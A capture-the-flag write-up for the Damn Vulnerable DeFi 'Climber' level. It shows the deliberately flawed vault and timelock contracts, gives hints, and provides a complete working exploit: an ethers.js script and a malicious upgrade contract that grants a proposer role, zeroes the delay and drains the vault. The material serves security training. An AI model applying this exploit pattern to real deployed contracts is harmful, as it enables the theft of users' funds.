 ```yaml
---
layout: post
title: 'Damn Vulnerable Defi 12: Climber'
category: Damn Vulnerable Defi
excerpt_separator:  <!--more-->
---
```


### Challenge:
Our twelfth challenge is called 'climber' and it comes with the following prompt:

```
There's a secure vault contract guarding 10 million DVT tokens. The vault is upgradeable, following the UUPS pattern.

The owner of the vault, currently a timelock contract, can withdraw a very limited amount of tokens every 15 days.

On the vault there's an additional role with powers to sweep all tokens in case of an emergency.

On the timelock, only an account with a "Proposer" role can schedule actions that can be executed 1 hour later.

Your goal is to empty the vault.
```

We have to find a way to take the funds from the vault and give them to the attacker.

The contracts for this challenge are located in contracts/climber/. The contract source code can be found below:

<details>
<summary> ClimberVault.sol:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts-upgradeable/proxy/utils/Initializable.sol";
import "@openzeppelin/contracts-upgradeable/access/OwnableUpgradeable.sol";
import "@openzeppelin/contracts-upgradeable/proxy/utils/UUPSUpgradeable.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

import "./ClimberTimelock.sol";

/**
 * @title ClimberVault
 * @dev To be deployed behind a proxy following the UUPS pattern. Upgrades are to be triggered by the owner.
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract ClimberVault is Initializable, OwnableUpgradeable, UUPSUpgradeable {

    uint256 public constant WITHDRAWAL_LIMIT = 1 ether;
    uint256 public constant WAITING_PERIOD = 15 days;

    uint256 private _lastWithdrawalTimestamp;
    address private _sweeper;

    modifier onlySweeper() {
        require(msg.sender == _sweeper, "Caller must be sweeper");
        _;
    }

    /// @custom:oz-upgrades-unsafe-allow constructor
    constructor() initializer {}

    function initialize(address admin, address proposer, address sweeper) initializer external {
        // Initialize inheritance chain
        __Ownable_init();
        __UUPSUpgradeable_init();

        // Deploy timelock and transfer ownership to it
        transferOwnership(address(new ClimberTimelock(admin, proposer)));

        _setSweeper(sweeper);
        _setLastWithdrawal(block.timestamp);
        _lastWithdrawalTimestamp = block.timestamp;
    }

    // Allows the owner to send a limited amount of tokens to a recipient every now and then
    function withdraw(address tokenAddress, address recipient, uint256 amount) external onlyOwner {
        require(amount <= WITHDRAWAL_LIMIT, "Withdrawing too much");
        require(block.timestamp > _lastWithdrawalTimestamp + WAITING_PERIOD, "Try later");
        
        _setLastWithdrawal(block.timestamp);

        IERC20 token = IERC20(tokenAddress);
        require(token.transfer(recipient, amount), "Transfer failed");
    }

    // Allows trusted sweeper account to retrieve any tokens
    function sweepFunds(address tokenAddress) external onlySweeper {
        IERC20 token = IERC20(tokenAddress);
        require(token.transfer(_sweeper, token.balanceOf(address(this))), "Transfer failed");
    }

    function getSweeper() external view returns (address) {
        return _sweeper;
    }

    function _setSweeper(address newSweeper) internal {
        _sweeper = newSweeper;
    }

    function getLastWithdrawalTimestamp() external view returns (uint256) {
        return _lastWithdrawalTimestamp;
    }

    function _setLastWithdrawal(uint256 timestamp) internal {
        _lastWithdrawalTimestamp = timestamp;
    }

    // By marking this internal function with `onlyOwner`, we only allow the owner account to authorize an upgrade
    function _authorizeUpgrade(address newImplementation) internal onlyOwner override {}
}
```
</div>
</details>

<details>
<summary> ClimberTimelock.sol:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/access/AccessControl.sol";
import "@openzeppelin/contracts/utils/Address.sol";

/**
 * @title ClimberTimelock
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract ClimberTimelock is AccessControl {
    using Address for address;

    bytes32 public constant ADMIN_ROLE = keccak256("ADMIN_ROLE");
    bytes32 public constant PROPOSER_ROLE = keccak256("PROPOSER_ROLE");

    // Possible states for an operation in this timelock contract
    enum OperationState {
        Unknown,
        Scheduled,
        ReadyForExecution,
        Executed
    }

    // Operation data tracked in this contract
    struct Operation {
        uint64 readyAtTimestamp;   // timestamp at which the operation will be ready for execution
        bool known;         // whether the operation is registered in the timelock
        bool executed;      // whether the operation has been executed
    }

    // Operations are tracked by their bytes32 identifier
    mapping(bytes32 => Operation) public operations;

    uint64 public delay = 1 hours;

    constructor(
        address admin,
        address proposer
    ) {
        _setRoleAdmin(ADMIN_ROLE, ADMIN_ROLE);
        _setRoleAdmin(PROPOSER_ROLE, ADMIN_ROLE);

        // deployer + self administration
        _setupRole(ADMIN_ROLE, admin);
        _setupRole(ADMIN_ROLE, address(this));

        _setupRole(PROPOSER_ROLE, proposer);
    }

    function getOperationState(bytes32 id) public view returns (OperationState) {
        Operation memory op = operations[id];
        
        if(op.executed) {
            return OperationState.Executed;
        } else if(op.readyAtTimestamp >= block.timestamp) {
            return OperationState.ReadyForExecution;
        } else if(op.readyAtTimestamp > 0) {
            return OperationState.Scheduled;
        } else {
            return OperationState.Unknown;
        }
    }

    function getOperationId(
        address[] calldata targets,
        uint256[] calldata values,
        bytes[] calldata dataElements,
        bytes32 salt
    ) public pure returns (bytes32) {
        return keccak256(abi.encode(targets, values, dataElements, salt));
    }

    function schedule(
        address[] calldata targets,
        uint256[] calldata values,
        bytes[] calldata dataElements,
        bytes32 salt
    ) external onlyRole(PROPOSER_ROLE) {
        require(targets.length > 0 && targets.length < 256);
        require(targets.length == values.length);
        require(targets.length == dataElements.length);

        bytes32 id = getOperationId(targets, values, dataElements, salt);
        require(getOperationState(id) == OperationState.Unknown, "Operation already known");
        
        operations[id].readyAtTimestamp = uint64(block.timestamp) + delay;
        operations[id].known = true;
    }

    /** Anyone can execute what has been scheduled via `schedule` */
    function execute(
        address[] calldata targets,
        uint256[] calldata values,
        bytes[] calldata dataElements,
        bytes32 salt
    ) external payable {
        require(targets.length > 0, "Must provide at least one target");
        require(targets.length == values.length);
        require(targets.length == dataElements.length);

        bytes32 id = getOperationId(targets, values, dataElements, salt);

        for (uint8 i = 0; i < targets.length; i++) {
            targets[i].functionCallWithValue(dataElements[i], values[i]);
        }
        
        require(getOperationState(id) == OperationState.ReadyForExecution);
        operations[id].executed = true;
    }

    function updateDelay(uint64 newDelay) external {
        require(msg.sender == address(this), "Caller must be timelock itself");
        require(newDelay <= 14 days, "Delay must be 14 days or less");
        delay = newDelay;
    }

    receive() external payable {}
}
```
</div>
</details>

The hints and solutions for this level can be found below:

<details>
<summary> Hint 1:</summary>
<br>
<div markdown="1">
Do you see any reentrancy concerns?
</div>
</details>

<details>
<summary> Hint 2:</summary>
<br>
<div markdown="1">
Who is the msg.sender when you perform an external call in `execute()`?
</div>
</details>

<details>
<summary> Hint 3:</summary>
<br>
<div markdown="1">
Which contract is an upgrade performed on in the UUPS design pattern? (Is it the proxy or the implementation? Which one is the ClimberVault?)
</div>
</details>
<details>
<summary> Solution:</summary>
<br>
<div markdown="1">
There are a couple of things we can gather both based on the prompt and a quick review of the code:

1. We can guess that the UUPS proxy patern will serve an important role in the solution
2. We will likely want to set the delay to 0 so that we can recover the funds in a single transaction
3. We want to do something to sweep the funds to our attacker

Keeping this in mind, we can dive deeper into the code and see that the ClimberTimelock allows anyone to execute an arbitrary command as long as it was already proposed. This is interesting. Further, we would be executing the commands from the context of the contract itself. What actions can we perform if we execute something that is proposed? We can see right away that we could now pass the requirement check and update the delay to 0. That's great now we would just need to find a way to be able to propose something. 

If we look at the constructor, we see that we are given self-administration and can therefore grantRoles to anybody. In other words, we can assign the PROPOSER role to anybody of our choosing. This is great, but even if we abused this to call `withdraw()` on the `ClimberVault.sol` contract, we would still be limited in the amount of funds we can collect and the `sweepFunds()` function can only possibly send funds to the designated sweeper. 

This is where the UUPS proxy comes in handy. The UUPS proxy is unique in that the implementation address holds the logic for contract upgrades. A very big issue with these contracts is that the owner of the proxy is the exact contract that we are executing our arbitrary code from. In other words, we have the permission to upgrade the proxy to a brand new implementation address.

So far we have the ability to call `execute()` which in turn gives us the ability to grant the proposer role and upgrade the contract to point to a new implementation. If we create a new implementation contract that allows us to sweep the funds to our attacker instead of to the current designated sweeper, then we would win! The only problem is.. we need to call `execute()` before we even propose a new rule because we need the delay to take effect before a new proposal is set. Luckily, we have one more bug we can exploit.

The contract suffers from a cross-function reentrancy bug because `execute()` checks that the commands being executed were already proposed AFTER they are actually executed. This means that we can create the proposal in the `execute()` call itself to propose what we are executing after it has already been executed. Voila!


</div>
</details>

<details>
<summary> Ethers Solution:</summary>
<br>
<div markdown="1">
```
    it('Exploit', async function () {        
        /** CODE YOUR EXPLOIT HERE */
        const { utils } = require('ethers');

        const ClimberAttackFactory = await ethers.getContractFactory('ClimberAttacker', deployer);
        this.c_attacker = await ClimberAttackFactory.deploy();
        let timelockAddress = await this.vault.owner();

        const SchedulerFactory = await ethers.getContractFactory('Scheduler', deployer);
        this.scheduler = await SchedulerFactory.deploy();

        let ABI_ud = ["function updateDelay(uint64 newDelay)"];
        let iface_ud = new ethers.utils.Interface(ABI_ud);
        updateDelay = iface_ud.encodeFunctionData("updateDelay", [0]);

        let ABI_gr = ["function grantRole(bytes32 role, address account)"];
        let iface_gr = new ethers.utils.Interface(ABI_gr);
        let PROPOSER_ROLE = utils.keccak256(utils.toUtf8Bytes("PROPOSER_ROLE"))
        grantRole = iface_gr.encodeFunctionData("grantRole", [PROPOSER_ROLE, this.c_attacker.address]);

        let ABI_utac = ["function upgradeTo(address newImplementation)"];
        let iface_utac = new ethers.utils.Interface(ABI_utac);
        upgradeTo = iface_utac.encodeFunctionData("upgradeTo", [this.c_attacker.address]);

        let ABI_dc = ["function schedule()"];
        let iface_dc = new ethers.utils.Interface(ABI_dc);
        schedule = iface_dc.encodeFunctionData("schedule", []);

        let targets = [timelockAddress, timelockAddress, this.vault.address, this.c_attacker.address];
        let values = [0, 0, 0, 0];
        let dataElements = [updateDelay, grantRole, upgradeTo, schedule];
        let salt = PROPOSER_ROLE;

        await this.c_attacker.initializeMe(targets, values, dataElements, salt, timelockAddress, attacker.address);

        await this.timelock.execute(targets, values, dataElements, salt);

        await this.vault.connect(attacker).sweepFunds(this.token.address);

    });
```
</div>
</details>

<details>
<summary> Contract Solution:</summary>
<br>
<div markdown="1">
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

/*
 * @title ClimberAttacker.sol
 * @author securerodd
 */
 
import "@openzeppelin/contracts-upgradeable/proxy/utils/Initializable.sol";
import "@openzeppelin/contracts-upgradeable/access/OwnableUpgradeable.sol";
import "@openzeppelin/contracts-upgradeable/proxy/utils/UUPSUpgradeable.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

interface Timelock {
    function schedule(address[] calldata, uint256[] calldata, bytes[] calldata,bytes32) external;
    function getOperationId(address[] calldata, uint256[] calldata,bytes[] calldata, bytes32) external pure returns (bytes32);
}

contract ClimberAttacker is Initializable, OwnableUpgradeable, UUPSUpgradeable {

    uint256 public constant WITHDRAWAL_LIMIT = 1 ether;
    uint256 public constant WAITING_PERIOD = 15 days;

    uint256 private _lastWithdrawalTimestamp;
    address private _sweeper;

    address[] public targets;
    uint256[] public values;
    bytes[] public dataElements;
    bytes32 public salt;
    Timelock timelock;
    address public attacker;

    modifier onlySweeper() {
        require(msg.sender == _sweeper, "Caller must be sweeper");
        _;
    }

    /// @custom:oz-upgrades-unsafe-allow constructor
    constructor() {}

    function initializeMe(
    address[] memory _targets,
    uint256[] memory _values,
    bytes[] memory _dataElements,
    bytes32 _salt,
    address _timelock,
    address _attacker) 
    initializer public {
        targets = _targets;
        values = _values;
        dataElements = _dataElements;
        salt = _salt;
        timelock = Timelock(_timelock);
        attacker = _attacker;
    }
    

    // Allows the owner to send a limited amount of tokens to a recipient every now and then
    function withdraw(address tokenAddress, address recipient, uint256 amount) external onlyOwner {
        require(amount <= WITHDRAWAL_LIMIT, "Withdrawing too much");
        require(block.timestamp > _lastWithdrawalTimestamp + WAITING_PERIOD, "Try later");
        
        _setLastWithdrawal(block.timestamp);

        IERC20 token = IERC20(tokenAddress);
        require(token.transfer(recipient, amount), "Transfer failed");
    }

    // MODIFIED to allow anyone to retrieve all tokens
    function sweepFunds(address tokenAddress) external {
        IERC20 token = IERC20(tokenAddress);
        require(token.transfer(msg.sender, token.balanceOf(address(this))), "Transfer failed");
    }

    function getSweeper() external view returns (address) {
        return _sweeper;
    }

    function _setSweeper(address newSweeper) internal {
        _sweeper = newSweeper;
    }

    function getLastWithdrawalTimestamp() external view returns (uint256) {
        return _lastWithdrawalTimestamp;
    }

    function _setLastWithdrawal(uint256 timestamp) internal {
        _lastWithdrawalTimestamp = timestamp;
    }

    // By marking this internal function with `onlyOwner`, we only allow the owner account to authorize an upgrade
    function _authorizeUpgrade(address newImplementation) internal onlyOwner override {}

    function schedule() external {
        timelock.schedule(targets, values, dataElements, salt);
    }
}

```
</div>
</details>
